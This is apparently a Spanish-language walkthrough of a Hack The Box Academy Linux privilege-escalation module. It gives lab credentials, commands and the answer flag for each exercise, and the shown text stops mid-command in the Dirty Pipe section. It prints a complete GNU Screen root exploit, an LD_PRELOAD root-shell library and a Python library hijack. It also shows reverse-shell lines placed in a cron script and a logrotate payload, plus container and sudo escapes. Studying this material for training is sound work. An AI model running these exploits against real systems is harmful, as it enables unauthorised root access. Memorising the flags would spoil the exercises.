# Linux Privilege Escalation

## Information Gathering

### Environment Enumeration

1. **Enumerate the Linux environment and look for interesting files that might contain sensitive data. Submit the flag as the answer.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
ssh htb-student@10.129.69.159
```

Una ve introducida la contraseña, nos situaremos en el usuario **lab_admin** y haremos un listado de archivo oculto

```
ls -la
```

<p align="center"> 

</p>

El archivo que tendremos que leer es **.viminfo**, básicamente este archivo nos dirá que el último archivo que edito el usuario fue **/usr/lib/int-check.sh** en el año 2023, si lo leemos encontraremos la flag.

```
cat /usr/lib/int-check.sh
```

answer: **HTB{1nt3rn4l_5cr1p7_l34k}**

### Linux Services & Internals Enumeration

1. **What is the latest Python version that is installed on the target?**

SSH to 10.129.69.159 (ACADEMY-LLPE-SUDO), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
ssh htb-student@10.129.69.159
whereis python
```

answer: **3.11**

### Credential Hunting

```
ssh htb-student@10.129.2.210 
find / -name "wp-config.php" 2>/dev/null
cat /var/www/html/wp-config.php | grep DB_PASSWORD
```

<p align="center"> 

</p>

answer: **W0rdpr3ss_sekur1ty!**

## Environment-based Privilege Escalation

### Path Abuse

1. **Review the PATH of the htb-student user. What non-default directory is part of the user's PATH?**

SSH to 10.129.2.210 (ACADEMY-LPE-NIX02), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_LLPE!</font>"

```
echo $PATH
```

> /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/tmp

answer: **/tmp**

### Escaping Restricted Shells

1. **Use different approaches to escape the restricted shell and read the flag.txt file. Submit the contents as the answer.**

SSH to 10.129.205.109 (ACADEMY-LLPE-RSH), with user "<font color="#00b050">htb-user</font>" and password "<font color="#c00000">HTB_@cademy_us3r!</font>"

Para resolver esta actividad tenemos que iniciar el ssh con bash, ya que si lo iniciamos sin bash, se nos abrirá con una shell restringida que no, nos permitirá interactuar con la mayoría de los comandos.

```
ssh htb-user@10.129.205.109 bash
cat flag.txt
```

answer: **HTB{35c4p3_7h3_r3stricted_5h311}**

## Permissions-based Privilege Escalation

### Special Permissions

1. **Find a file with the setuid bit set that was not shown in the section command output (full path to the binary).**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_LLPE!</font>"

```
find / -perm -4000 -type f 2>/dev/null
```

Este comando busca archivos que tengan activo el bit **SUID (Set User ID)**.

answer: **/bin/sed**

2. **Find a file with the setgid bit set that was not shown in the section command output (full path to the binary).**

```
find / -perm -2000 -type f 2>/dev/null
```

Este comando busca archivos que tengan activo el bit **SGID (Set Group ID)**.

answer: **/usr/bin/facter**

### Sudo Rights Abuse

1. **What command can the htb-student user run as root?**

SSH to 10.129.70.10 (ACADEMY-LPE-NIX02), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_LLPE!</font>"

```
ssh htb-student@10.129.2.210
/usr/bin/openssl
```

answer: **/usr/bin/openssl**

### Privileged Groups

1. **Use the privileged group rights of the secaudit user to locate a flag.**

SSH to 10.129.2.210 (ACADEMY-LPE-NIX02), with user "<font color="#00b050">secaudit</font>" and password "<font color="#c00000">Academy_LLPE!</font>"

```
ssh secaudit@10.129.2.210
id
```

> uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)

Comprobamos que el usuario **secaudit** pertenece al grupo **adm**. La idea ahora usar la herramienta **find** encontrar por todo el sistema archivos que pertenezca al grupo **adm**

```
find / -group adm 2>/dev/null 2> /dev/null
```

```bash
/var/spool/rsyslog
/var/log/kern.log
/var/log/auth.log
/var/log/apache2
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/apache2/other_vhosts_access.log
/var/log/dist-upgrade/apt-term.log
/var/log/syslog
/var/log/unattended-upgrades
/var/log/mysql
/var/log/mysql/error.log
/var/log/apt/term.log
/var/log/apport.log
```

Luego, usaremos la herramienta **grep** para encontrar la flag dentro de los archivos que hemos encontrado anteriormente. El que dió resultado fue el siguiente:

```
grep -i "flag" /var/log/apache2/access.log
```

<p align="center"> 

</p>

answer: **ch3ck_th0se_gr0uP_m3mb3erSh1Ps!**
### Capabilities

1. **Escalate the privileges using capabilities and read the flag.txt file in the "/root" directory. Submit its contents as the answer.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
ssh htb-student@10.129.205.111
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

El objetivo del anterior comando es conseguir enumerar los **capabilities**

<p align="center"> 

</p>

```
getcap /usr/bin/vim.basic
```

> /usr/bin/vim.basic = cap_dac_override+eip

Tener `cap_dac_override+eip` en un editor de texto como Vim es **extremadamente peligroso** en un entorno de producción.

Como Vim permite ejecutar comandos del sistema (escribiendo `:!comando` o abriendo una shell con `:sh`), cualquier usuario normal que ejecute ese Vim puede saltarse la seguridad por completo y modificar archivos críticos como `/etc/shadow` o `/etc/sudoers` para convertirse en `root` permanente.

Si esto no lo configuraste tú a propósito para hacer pruebas, es una vulnerabilidad grave o un indicador de que alguien modificó el sistema (un posible indicador de compromiso).

```
cat /etc/passwd | head -n1
```

> root:x:0:0:root:/root:/bin/bash

Si editamos el archivo `/etc/passwd` y quitamos esa `x`, le estamos diciendo textualmente al sistema que **el usuario root no tiene contraseña**.

Esto significa que cualquiera con acceso físico podría iniciar sesión como administrador simplemente escribiendo `root` y presionando Enter. Es un peligro crítico de seguridad porque destruye por completo el control de acceso del sistema.

Para llevar acabo esto usaremos el siguiente comando: 

```
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1
```

<p align="center"> 

</p>

```
su root
cat /root/flag.txt
```

answer: **HTB{c4paBili7i3s_pR1v35c}**

## Service-based Privilege Escalation

### Vulnerable Services

1. **Connect to the target system and escalate privileges using the Screen exploit. Submit the contents of the flag.txt file in the /root/screen_exploit directory.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_LLPE!</font>"

```
ssh htb-student@10.129.2.210
screen -v
```

> Screen version 4.05.00 (GNU) 10-Dec-16

Exploit: 

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

El exploit aprovecha que un programa del sistema (`screen`) le permite escribir sin querer en un archivo de configuración crítico, logrando que el propio sistema operativo cargue y ejecute un código dañino con permisos de administrador.

Usaremos este exploit y lo guardaremos como **screen_exploit.sh** y le daremos permiso de ejecución

```
chmod +x screen_exploit.sh
./screen_exploit.sh
id
```

<p align="center"> 

</p>

```
cat /root/screen_exploit/flag.txt
```

answer: **91927dad55ffd22825660da88f2f92e0**

### Cron Job Abuse

1. **Connect to the target system and escalate privileges by abusing the misconfigured cron job. Submit the contents of the flag.txt file in the /root/cron_abuse directory.**

SSH to 10.129.2.210 (ACADEMY-LPE-NIX02), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_LLPE!</font>"

```
ssh htb-student@10.129.2.210 
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

<p align="center"> 

</p>

```
cat /dmz-backups/backup.sh
```

```bash
#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
```

La idea ahora es añadir a este script la siguiente línea, 

```
bash -i >& /dev/tcp/10.129.2.210/443 0>&1
```

Con la idea de conseguir una shell, y como el script ocurre cada X tiempo, solo será cuestión de tiempo de obtener la sesión :). Preparamos el puerto de escucha

```
nc -lnvp 4445
```

<p align="center"> 

</p>

```
cat /root/cron_abuse/flag.txt
```

answer: **14347a2c977eb84508d3d50691a7ac4b**

### Containers

1. **Escalate the privileges and submit the contents of flag.txt as the answer.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
ssh htb-student@10.129.201.127
cd ContainerImages
lxc image import alpine-v3.18-x86_64-20230607_1234.tar.gz --alias ubuntutemp
```

Importamos la imagen alpine-v3.18

<p align="center"> 

</p>

```
lxc init ubuntutemp privesc -c security.privileged=true
```

**Crear el contenedor correctamente**

Inicializa el contenedor usando tu imagen `ubuntutemp` con los privilegios de seguridad desactivados (`security.privileged=true`):

```
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

**Añadir el disco con el parámetro 'path' (Crucial)**

Debes definir el `source` (la raíz de tu sistema operativo host `/`) y el `path` (la carpeta **dentro** del contenedor donde quieres que aparezca esa raíz, por ejemplo, `/mnt/root`):

```
lxc start privesc
lxc exec privesc /bin/sh
```

**Iniciar y acceder al contenedor**

Ahora el contenedor debería iniciar limpiamente. Una vez iniciado, ejecuta `/bin/sh` (recuerda usar `sh` ya que tu imagen es Alpine y no suele traer `bash` por defecto):

**¿Cómo verificar que funcionó?**

Una vez que estés dentro del contenedor (el prompt cambiará), la raíz de la máquina principal estará montada en la ruta que especificaste. Podrás interactuar con ella ejecutando:

```
cd /mnt/root/root
ls -la
```

<p align="center"> 

</p>

answer: **HTB{C0nT41n3rs_uhhh}**

### Docker

1. **Escalate the privileges on the target and obtain the flag.txt in the root directory. Submit the contents as the answer.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
ssh htb-student@10.129.205.237
id
```

Comprobamos que está dentro del grupo docker

> uid=1001(htb-student) gid=1001(htb-student) groups=1001(htb-student),118(docker)

Vamos a listar image de docker

```
docker image ls
```

> REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
> ubuntu       latest    5a81c4b8502e   3 years ago   77.8MB

Iniciamos el contenedor docker con el siguiente comando:

```
docker run -v /:/mnt --rm -it ubuntu:latest chroot /mnt
```

- `docker run`: Arranca un nuevo contenedor usando la imagen `ubuntu:latest` que listaste.
- `-v /:/mnt`: Aquí está la magia. Monta la raíz de la máquina real (`/`) dentro del contenedor en la carpeta `/mnt`.
- `--rm`: Borra el contenedor automáticamente cuando termines para no dejar rastro.
- `-it`: Te da una terminal interactiva.
- `chroot /mnt`: Cambia la raíz de tu terminal a `/mnt` (que es la máquina real)

```
cat /root/flag.txt
```

<p align="center"> 

</p>

answer: **HTB{D0ck3r_Pr1vE5c}**

### Logrotate

1. **Escalate the privileges and submit the contents of flag.txt as the answer.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

En mi maquina kali descargaremos el siguiente programa **logrotten.git**

```
git clone https://github.com/whotwagner/logrotten.git
cd logrotten.git
python3 -m http.server 80
```

Preparamos el puerto de escucha.

```
ssh htb-student@10.129.72.4
wget http://10.10.15.57:8000/logrotten.c
```
Una vez iniciada la sesión nos descargamos la herramienta de logrotten

Una vez descargado, compilamos el archivo logrotten de nuestro maquina objetivo, por tanto dentro de la maquina objetivo escribimos el siguiente comando:

```
gcc logrotten.c -o logrotten
```

Luego, preparamos el siguiente payload 

```
echo 'bash -i >& /dev/tcp/10.10.15.57/9001 0>&1' > payload
```

Por último descubro que la siguiente ruta **/home/htb-student/backups/access.log** descubro que cuando se activa el logrotate todo el "informe" se va a la ruta señalada. Por tanto preparamos el comando:

```
./logrotten -p payload /home/htb-student/backups/access.log
```

<p align="center"> 

</p>

Preparamos el puerto de escucha en nuestra kali:

```
nc -nlvp 9001
cat flag.txt
```

Luego abrimos una nueva terminal  y escribimos lo siguiente: 

```
echo "test" > /home/htb-student/backups/access.log
```

<p align="center"> 

</p>

Luego en la primera terminal abierta, se establecerá esto:

<p align="center"> 

</p>

Solo es cuestión de tiempo que en nuestra kali no dé la flag.txt

<p align="center"> 

</p>

answer: **HTB{l0G_r0t7t73N_00ps}**

### Miscellaneous Techniques

1. **Review the NFS server's export list and find a directory holding a flag.**

SSH to 10.129.72.47 (ACADEMY-LPE-NIX02), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_LLPE!</font>"

```
showmount -e 10.129.72.47
```

Este comando devolverá una lista de directorios

```bash
Export list for 10.129.72.47:
/tmp             *
/var/nfs/general *
```

La lista de directorio que me interesa es **/var/nfs/general**

Luego, Crea un directorio temporal en tu máquina:

```
mkdir /tmp/htb_nfs
```

Con el siguiente comando montamos el fichero **/var/nfs/general** en nuestra directorio temporal.

```
sudo mount -t nfs 10.129.72.47:/var/nfs/general /tmp/htb_nfs
cd /tmp/htb_nfs
ls -la
cat exports_flag.txt
```

<p align="center"> 

</p>

answer: **fc8c065b9384beaa162afe436a694acf**

## Linux Internals-based Privilege Escalation

### Kernel Exploits

1. **Escalate privileges using a different Kernel exploit. Submit the contents of the flag.txt file in the /root/kernel_exploit directory.**

SSH to 10.129.72.47 (ACADEMY-LPE-NIX02), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_LLPE!</font>"

```
ssh htb-student@10.129.72.47
```

En esta ocasión intentaremos explotar el kernel, para ello antes de hacerlo tenemos que informarnos la version que tiene, para ello usaremos los siguientes comandos:

```
uname -a
```

> Linux NIX02 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

```
cat /etc/lsb-release
```

>DISTRIB_ID=UbuntuDISTRIB_RELEASE=18.04
   DISTRIB_CODENAME=bionic
   DISTRIB_DESCRIPTION="Ubuntu 18.04.6 LTS"

Una vez obtenido la versión del kernel, en google buscamos **Linux NIX02 4.15.0-76-generic exploit** Y nos aparecerá esta [página](https://github.com/Abdennour-py/CVE-2021-3493/blob/main/exploit.c)

<p align="center"> 

</p>

Guardamos el archivo **exploit.c** en nuestra kali y lo compartimos a nuestra maquina objetivo

Nos situamos donde se encuentra el archivo

```
python3 -m http.server 80
```

En nuestra maquina objetivo, nos situamos en la carpeta **/tmp**

```
wget http://10.10.15.57:80/exploit.c
```

<p align="center"> 

</p>

```
gcc exploit.c -o exploit
chmod +x exploit
./exploit
```

<p align="center"> 

</p>

```
cat /root/kernel_exploit/flag.txt
```

answer: **46237b8aa523bc7e0365de09c0c0164f**

### Shared Libraries

1. **Escalate privileges using LD_PRELOAD technique. Submit the contents of the flag.txt file in the /root/ld_preload directory.**

SSH to 10.129.72.47 (ACADEMY-LPE-NIX02), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">Academy_LLPE!</font>"

En esta ocasión para escalar privilegio haremos este comando: 

```
sudo -l
```

```bash
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

Para escalar privilegio tendremos que crear este archivo **root.c** con el siguiente contenido

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Compila ese archivo usando `gcc` para generar el objeto compartido `root.so`

```
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

Luego ejecutamos `openssl` inyectando tu biblioteca mediante `LD_PRELOAD`

```
sudo LD_PRELOAD=/tmp/root.so /usr/bin/openssl
cat /root/ld_preload/flag.txt
```

<p align="center"> 

</p>

answer: **6a9c151a599135618b8f09adc78ab5f1**

### Shared Object Hijacking

1. **Follow the examples in this section to escalate privileges, recreate all examples (don't just run the payroll binary). Practice using ldd and readelf. Submit the version of glibc (i.e. 2.30) in use to move on to the next section.**

```
ssh htb-student@10.129.72.47
ldd --version
```

```bash
ldd (Ubuntu GLIBC 2.27-3ubuntu1.6) 2.27
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```

answer: **2.27**

### Python Library Hijacking

1. **Follow along with the examples in this section to escalate privileges. Try to practice hijacking python libraries through the various methods discussed. Submit the contents of flag.txt under the root user as the answer.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
ssh htb-student@10.129.205.114
sudo -l
```

```bash
sudo -l
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python3 /home/htb-student/mem_status.py
```

Básicamente nos dice que este script **mem_status.py** tiene permiso de root, observemos su contenido

```python
#!/usr/bin/env python3
import psutil 

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

El problema no está en la lógica del script en sí, sino en que depende de un módulo externo (`psutil`) que Python busca por nombre en su `sys.path` sin verificar su origen ni integridad. Como el script se ejecuta con privilegios de root vía sudoers, y Python añade el directorio del propio script a la ruta de búsqueda de módulos, cualquier usuario que pueda escribir ahí un archivo llamado `psutil.py` puede hacer que ese import cargue código arbitrario en lugar de la librería real — logrando ejecución de código como root. Esto es un ejemplo clásico de **secuestro de dependencias (dependency/module hijacking)** combinado con permisos de sudo mal configurados.

Por tanto crearemos el script **psutil.py** pero como nano no nos funciona en esta maquina, usaremos la herramienta **heredoc** (Basicamente le dice a la shell "todo lo que escriba desde esta línea hasta que aparezca `EOF` solo en una línea, trátalo como texto de entrada para el comando `cat`". Y `cat`, al recibir texto por entrada estándar y estar redirigido con `>`, simplemente lo vuelca tal cual en el archivo.)

```python
cat > /home/htb-student/psutil.py << 'EOF'
import os

def virtual_memory():
    os.system('/bin/bash')
EOF
```

El siguiente comando es lo que nos dará acceso a root

```
sudo /usr/bin/python3 /home/htb-student/mem_status.py
cat /root/flag.txt
```

answer: **HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}**

## Recent 0-Days

### Sudo

1. **Escalate the privileges and submit the contents of flag.txt as the answer.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
ssh htb-student@10.129.73.188
sudo -l
```

```bash
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```

Para escalara privilegio haremos el siguiente comando: 

```
sudo -u#-1 /bin/ncdu
```

Con `-u #-1` estás confundiendo al sistema para que la parte que **revisa los permisos** crea que eres un usuario cualquiera, pero la parte que **ejecuta el comando** te convierta en el administrador supremo

<p align="center"> 

</p>

answer: **HTB{SuD0_e5c4l47i0n_1id}**

### Polkit

1. **Escalate the privileges and submit the contents of flag.txt as the answer.**

SSH to 10.129.205.113 (ACADEMY-LLPE-POLKIT), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

En este ejercicio, en nuestra kali nos descargaremos un programa para explotar la vulnerabilidad [Polkit](https://github.com/arthepsy/CVE-2021-4034.git)

```
git clone https://github.com/arthepsy/CVE-2021-4034.git
```

Una vez descargado la herramienta lo compartimos a nuestra maquina objetivo.

```
python3 -m http.server 80
```

En la maquina objetivo nos situamos en la carpeta **tmp**

```
wget http://10.10.15.17:80/cve-2021-4034-poc.c
gcc cve-2021-4034-poc.c -o poc
./poc
```

<p align="center"> 

</p>

answer: **HTB{p0Lk1tt3n}**

### Dirty Pipe

1. **Escalate the privileges and submit the contents of flag.txt as the answer.**

SSH to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

En esta actividad tendremos que descargarnos la siguiente [herramienta](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git) para explotar una vulnerabilidad llamada Dirty Pipe

```
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
```

Luego, en nuestra kali preparo el siguiente comando para poder enviarlo a la maquina objetivo

```
python3 -m http.server 80
```

En la máquina objetivo, descargamos los siguientes archivos

```
wget http://10.10.15.17:80/compile.sh
